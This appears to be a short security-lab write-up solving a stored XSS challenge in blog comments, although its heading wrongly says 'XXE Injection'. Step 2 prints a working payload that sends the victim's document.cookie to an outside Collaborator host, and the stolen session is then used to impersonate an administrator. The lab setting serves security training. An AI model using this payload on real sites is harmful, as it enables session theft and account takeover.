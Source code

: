 <div align='center'>

# **XXE Injection**

</div>

## **Lab:** Exploiting cross-site scripting to steal cookies

**Goal:** This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

**Solution:**

1.  We discover an XSS vulnerability in the comment section when we comment as `<b>XSS</b>`

![](./img/1.png)

2.  To steal the user's cookie, we will use this payload to post a comment. We use the burp collaborator client to observe the http request

```javascript
<script>fetch("https://fcvso9l42cb90gm0vz3p2md950bqzf.oastify.com",
{
    method: 'POST',
    body:document.cookie
});</script>
```

When user visits the blog page, users also make a POST request with request's body contain this user's cookie which will be seen by us when examining the request

![](./img/2.png)

![](./img/3.png)

We obtain his session cookie.

3.  Navigate to `\my-account` and verify that we are logged in as an administrator

![](./img/4.png)

![](./img/5.png)

